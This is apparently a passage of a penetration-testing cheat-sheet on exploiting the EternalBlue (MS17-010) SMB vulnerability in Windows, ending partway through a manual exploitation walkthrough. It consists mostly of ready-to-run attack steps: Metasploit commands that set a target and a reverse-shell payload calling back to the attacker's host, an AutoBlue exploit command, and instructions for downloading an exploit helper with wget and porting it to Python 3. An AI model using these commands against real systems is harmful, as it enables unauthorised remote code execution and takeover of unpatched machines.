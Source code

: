 ## EternalBlue (MS17-010)

```sh
msfconsole
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
msf> set payload payload/generic/shell_reverse_tcp
```

### AutoBlue

**[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)** is an automatic exploit.  
Download the repository and run the following example command.

```sh
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

### Manual Exploiting

You need to have two files - exploit.py, mysmb.py

1. **Download mysmb.py**

    ```sh
    wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

    # Convert DOS to UNIX
    dos2unix mysmb.py
    ```

2. **Edit Some Lines of mysmb.py for Python3**

    You need to edit some code because this exploit is old so only supports **Python2**.

    ```sh
    Line.69
    # transData = b''
    transData = ''

    Line.73
    # transData = ('\x00' * padLen) + str(parameters)
    transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

    Line.80
    # transData += ('\x00' * padLen) + data
    transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)
